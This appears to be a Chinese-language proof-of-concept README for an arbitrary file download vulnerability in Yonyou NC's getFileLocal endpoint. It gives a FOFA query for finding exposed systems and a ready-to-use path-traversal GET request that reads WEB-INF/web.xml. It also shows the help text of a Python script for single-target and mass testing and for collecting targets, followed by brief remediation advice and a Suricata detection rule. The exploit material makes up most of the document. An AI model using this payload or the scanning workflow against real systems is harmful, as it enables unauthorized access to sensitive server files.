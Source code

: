 ### 产品简介  
用友NC是“企业资源规划（Enterprise Resource Planning）”的缩写，是指用友软件股份有限公司开发的一套企业管理软。用友NC系统是一种集成管理企业各项业务流程的信息化解决方案。该系统涵盖了财务、人力资源、供应链管理等多个方面，旨在帮助企业提高运营效率、优化资源利用、提升管理水平。  

### 漏洞概述  
用友NC getFileLocal 任意文件下载,攻击者可通过此漏洞获取敏感信息。  

### 指纹识别  
fofa: app="用友-UFIDA-NC" && title=="产品登录界面"

### 漏洞利用  
```
poc:
GET /portal/file?cmd=getFileLocal&fileid=..%2F..%2F..%2F..%2Fwebapps/nc_web/WEB-INF/web.xml HTTP/1.1
Host: xxxxxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```
![Image text](https://github.com/YUUKI4O4/POC/blob/main/Yonyou_NC_getFileLocal_Arbitrary_File_Download_Vulnerability/1.png)

### 测试和利用脚本  
```
python3 Yonyou_NC_getFileLocal_Arbitrary_File_Download_Vulnerability.py -h
usage: Yonyou_NC_getFileLocal_Arbitrary_File_Download_Vulnerability.py [-h] [-t] [-r FILE] [-u URL]

### Yonyou NC getFileLocal Arbitrary File Download Vulnerability. ###

options:
  -h, --help            show this help message and exit
  -t, --target_collection
                        Perform target collection
  -r FILE, --multi_objective_testing FILE
                        Perform multi-objective testing. e.g:python
                        Yonyou_NC_getFileLocal_Arbitrary_File_Download_Vulnerability.py -r ./url.txt
  -u URL, --single_objective_testing URL
                        Perform single-objective testing. e.g:python
                        Yonyou_NC_getFileLocal_Arbitrary_File_Download_Vulnerability.py -u
                        http://xxx.xxx.xxx
```

### 修复建议  
1、请联系厂商进行修复。  
2、如非必要，禁止公网访问该系统。  
3、设置白名单访问。  

### Suricata rules  
```
alert http any any -> any any (msg:"Yonyou NC getFileLocal Arbitrary File Download Vulnerability"; flow:established,to_server;  content:"get";http_method;nocase; content:"/portal/file?cmd=getFileLocal&fileid=";http_uri;fast_pattern;nocase; content:"../../";http_uri;distance:0; reference:url,https://github.com/YUUKI4O4/POC/tree/main/Yonyou_NC_getFileLocal_Arbitrary_File_Download_Vulnerability;  classtype:web-attck; metadata:created_at 2024-01-29,updated_at 2024-01-29,creater:YUUKI4O4; sid:24; rev:1;)
```
